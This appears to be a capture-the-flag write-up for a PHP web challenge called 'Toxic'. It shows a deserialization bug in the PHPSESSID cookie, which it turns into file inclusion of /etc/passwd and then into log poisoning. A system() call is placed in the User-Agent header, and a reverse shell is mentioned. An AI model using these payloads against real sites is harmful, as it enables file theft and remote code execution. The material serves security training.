





# Toxic

## Code Audit



PageModel class has a file variable, while the instance is base64 encoded into PHPSESSID (controllable).

```console
$ echo 'Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9' | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

## Local File Inclusion

- POC: `/etc/passwd`

```console
$ echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30K
```



## Log Poisoning

- use LFI to read `/var/log/nginx/access.log`

```console
$ echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQo=
```



- change the content of **User-Agent** and trigger access.log to exhibit flag file, `<?= system('ls -l /');?>` (HINT=> `'` is ok, `"` is not ok)
- also, able to change User-Agent with reverse shell command to get a web shell



```console
$ echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag_pOxsB";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfcE94c0IiO30K
```




